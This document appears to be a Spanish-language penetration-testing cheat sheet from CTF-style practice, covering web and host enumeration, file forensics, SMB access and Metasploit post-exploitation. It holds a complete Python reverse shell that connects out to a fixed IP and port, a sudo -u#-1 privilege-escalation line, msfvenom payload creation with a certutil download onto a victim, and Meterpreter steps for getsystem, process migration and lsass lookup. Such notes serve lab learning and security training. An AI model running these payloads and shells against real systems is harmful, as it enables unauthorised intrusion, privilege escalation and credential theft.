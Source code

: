
### ENUMERACION WEB
host [WEB] - ver direccion IP
whatweb [WEB] - ver tecnologías de la web
whois [WEB] - informacion sobre el dominio
dnsrecon -d [WEB] - ver registros DNS
wafw00f [WEB] - ver informacion de firewalls
wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
gobuster -u URL -w WORDLIS -t (velocidad) --no-error -k (para ignorar certs)

### DESCRUBRIMIENTO DE HOSTS
sudo nmap -sn [IP & MASK] - ver otros dispositivos dentro de la red
sudo arp-scan -l
sudo netdiscover -r [IP & MASK]

### IMAGENES y ARCHIVOS
exiftool archivo  > ver datos del archivo
steghide extract --sf archivo.jpg > podemos ver si tiene archivo con info
strings nos trae los datos del archivo
file para ver de que tipo es un archivo
find / -perm -u=s -type f 2>/dev/null
binwalk -e ARCHIVO > nos permite extraer cualquier dato del archivo

sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt

### HASH
base64 -d archivo.txt - decode base64 linux

### ESTABILIZAR TERMINAL PYTHON
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	_Ctrl+Z_
	stty raw -echo; fg
	export TERM=xterm


### REVERSE SHELL SCRIPT PYTHON
	import socket
	import os
	import subprocess
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.9.146.146",1444))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	import pty
	pty.spawn("bash")

### SMB
smbmap -H HOST
smbclient \\\\\\\\HOST\\\
psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole
smbclient //IP/share -U user > podemos entrar dentro de uno de los shares
### AGREGAR PATH LINUX
PATH=/RUTA:$PATH

### FIREWALL LINUX
sudo ufw status - estado de fw
sudo ufw default allow outgoing - permite saliente
sudo ufw default deny incoming - deniega entrante
sudo ufw enable - habilitar
sudo ufw disable - deshabilitar

### METASPLOIT
getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
pgrep lsass = buscar id de lsass 
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)
